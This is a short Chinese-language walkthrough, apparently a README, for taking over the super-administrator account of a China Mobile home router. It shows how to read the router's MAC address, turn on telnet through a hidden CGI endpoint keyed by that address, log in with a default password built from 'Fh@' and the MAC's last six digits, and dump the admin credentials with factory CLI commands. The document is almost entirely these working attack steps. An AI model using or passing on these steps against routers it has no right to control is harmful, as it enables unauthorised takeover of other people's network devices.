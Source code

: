 # CMC
1、打开cmd（Windows）或者 Terminal终端（macOS）

2、执行

arp -a 192.168.1.1
得到MAC地址


第二步 开启Telnet
1、在浏览器中输入http:/192.168.1.1/cgi-bin/telnetenable.cgi?telnetenable=1&key=MAC值

2、此时，你应该看到“telnet开启”

第三步 获取超级密码
1、打开cmd（Windows）或者 Terminal终端（macOS）

2、执行
telnet 192.168.1.1
你应该看到login：

你应该看到这个
3、然后，在login:后面执行

admin
对话框会提示你输入密码

在Password:后面输入Fh@加上你获取的MAC的后6位，比如说我这里就是Fh@MAC后6位

这时，对话框会出现一个#

注：输密码的时候是没有显示的（密码保护机制），如果怕输错可以用记事本编辑好密码之后复制粘贴。粘贴时要用右键，不要用Ctrl-V！

4、执行

load_cli factory
show admin_name
show admin_pwd
对话框会显示

成功！
里面admin_name=后面的CMCCAdmin就是超级账户名，admin_pwd=后面的CMCCAdmin开头的一串就是超级密码

5、访问192.168.1.1，把账户名和密码输进去，就进入管理员模式
